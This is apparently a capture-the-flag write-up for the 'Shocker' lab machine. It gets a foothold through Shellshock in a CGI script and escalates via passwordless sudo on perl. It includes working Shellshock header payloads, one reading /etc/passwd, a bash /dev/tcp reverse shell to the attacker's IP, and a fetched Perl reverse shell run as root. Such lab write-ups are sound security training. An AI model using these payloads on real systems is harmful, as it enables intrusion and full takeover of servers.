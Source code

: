 Box: Linux
Level: Easy

### Index
1.  [Box Info](#Box%20Info)
2.  [Nmap Enum](#Nmap%20Enum)
3. [Web enumeration](#Web%20enumeration)
	1. [`Almost Got The Shell...`](#`Almost%20Got%20The%20Shell...`)
	2. [`Validating Shell Shock using nmap`](#`Validating%20Shell%20Shock%20using%20nmap`)
	3. [`ShellShock using CURL`](#`ShellShock%20using%20CURL`)
	4. [`User Flag using ShellShock`](#`User%20Flag%20using%20ShellShock`)
4. [Privilege Escalation](#Privilege%20Escalation)
	1. [`Grab the Perl Shell`](#`Grab%20the%20Perl%20Shell`)
	2. [`Got Root Flag`](#`Got%20Root%20Flag`)

### Box Info
```
Shocker, while fairly simple overall, demonstrates the severity of the renowned Shellshock exploit, which affected millions of public-facing servers.
```

### Nmap Enum
```
# nmap -p- --min-rate=1000 -sC -sV -sT -T4 -A -Pn shocker.htb
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
```
Only two open ports.  

### Web enumeration
```
# feroxbuster -u http://shocker.htb/cgi-bin/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -C 404 -x sh
200      GET        7l       18w      119c http://shocker.htb/cgi-bin/user.sh
```

Browsing `http://shocker.htb` and `http://shocker.htb/cgi-bin/user.sh` would show us the following 
![](shocker_port80.png)

We will spin up Burp Suite to capture the HTTP request and response pair.

###### `Almost Got The Shell...`
![](shocker_ShellShock.png)
I started the NetCat Listener on port 4444 and trying to inject the ShellShock payload through the `User-Agent` HTTP Request Header however, the shell dropped right away.

###### `Validating Shell Shock using nmap`
```
# nmap -p80 --min-rate=1000 --script "http-shellshock" --script-args "uri=/cgi-bin/user.sh,cmd=ls" shocker.htb
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-24 23:11 EDT
PORT   STATE SERVICE
80/tcp open  http
| http-shellshock: 
|   VULNERABLE:
|   HTTP Shellshock vulnerability
|     State: VULNERABLE (Exploitable)
|     IDs:  CVE:CVE-2014-6271
|       This web application might be affected by the vulnerability known
|       as Shellshock. It seems the server is executing commands injected
|       via malicious HTTP headers.
|             
|     Disclosure date: 2014-09-24
|     Exploit results:
|       <!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
|   <html><head>
|   <title>500 Internal Server Error</title>
|   </head><body>
|   <h1>Internal Server Error</h1>
|   <p>The server encountered an internal error or
|   misconfiguration and was unable to complete
|   your request.</p>
|   <p>Please contact the server administrator at 
|    webmaster@localhost to inform them of the time this error occurred,
|    and the actions you performed just before this error.</p>
|   <p>More information about this error may be available
|   in the server error log.</p>
|   <hr>
|   <address>Apache/2.4.18 (Ubuntu) Server at shocker.htb Port 80</address>
|   </body></html>
```

You can perform the RCE using HTTP User Agent Request header and nmap using the following command. In my case, it was not echoing back the output in the HTTP response.
```
# nmap -p80 --min-rate=1000 --script "http-shellshock" --script-args "uri=/cgi-bin/user.sh,cmd='echo User-Agent: () { :; }; echo; /bin/whoami'" shocker.htb
```

###### `ShellShock using CURL`
```
curl --path-as-is -i -s -k -X $'GET' \
    -H $'Host: shocker.htb' -H $'Accept-Language: en-US' -H $'Upgrade-Insecure-Requests: 1' -H $'User-Agent: () { :; }; echo; echo; /bin/bash -c \'cat /etc/passwd\'' -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7' -H $'Accept-Encoding: gzip, deflate, br' -H $'Connection: keep-alive' \
    $'http://shocker.htb/cgi-bin/user.sh'
```

###### `User Flag using ShellShock`
```
GET /cgi-bin/user.sh HTTP/1.1
Host: shocker.htb
Accept-Language: en-US
Upgrade-Insecure-Requests: 1
User-Agent: () { :; }; echo; echo; /bin/bash -i >& /dev/tcp/10.10.14.8/4444 0>&1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
```

On the NetCat Listener Side,
```
shelly@Shocker:/home/shelly$ cat user.txt
cat user.txt
0ccf63e4f368*********************
```
Get your User Flag

### Privilege Escalation

Uploaded `LinEnum.sh` and than running it throws the `Permission Denied`. Change the permission using `chmod +x LinEnum.sh` command. Following to that `LinEnum` run.
```
[-] Kernel information (continued):
Linux version 4.4.0-96-generic (buildd@lgw01-10) (gcc version 5.4.0 20160609 (Ubuntu 5.4.0-6ubuntu1~16.04.4) ) #119-Ubuntu SMP Tue Sep 12 14:59:54 UTC 2017

[+] We can sudo without supplying a password!
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
[+] Possible sudo pwnage!
/usr/bin/perl

[-] Root is allowed to login via SSH:
PermitRootLogin yes

[-] Sudo version:
Sudo version 1.8.16
```

Looks like we are allowed to execute `Perl` command with sudo. I will simply grab the Perl Shell from the GitHub and get it on the target and execute.

###### `Grab the Perl Shell`
Grab the Perl Shell from [Here](https://github.com/pentestmonkey/perl-reverse-shell/blob/master/perl-reverse-shell.pl) and get it on the box. make sure to change the IP and Port.

```
shelly@Shocker:/tmp$ curl -o perl-reverse-shell.pl http://10.10.14.8/perl-reverse-shell.pl
<o perl-reverse-shell.pl http://10.10.14.8/perl-reverse-shell.pl             
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  3713  100  3713    0     0  42872      0 --:--:-- --:--:-- --:--:-- 43682

shelly@Shocker:/tmp$ sudo perl perl-reverse-shell.pl

Content-Length: 0
Connection: close
Content-Type: text/html

shelly@Shocker:/tmp$ Content-Length: 41
Connection: close
Content-Type: text/html

Sent reverse shell to 10.10.14.8:5555<p>
```

###### `Got Root Flag`
On the NetCat Listener side
```
# nc -lvnp 5555           
listening on [any] 5555 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.10.56] 36822
 00:02:58 up  2:05,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
Linux Shocker 4.4.0-96-generic #119-Ubuntu SMP Tue Sep 12 14:59:54 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
uid=0(root) gid=0(root) groups=0(root)
/
/usr/sbin/apache: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# pwd  
/
# cd root
# ls
root.txt
# cat root.txt
b4d7e8e22b046fd33bac60590020a747
# 

```

Grab the root flag.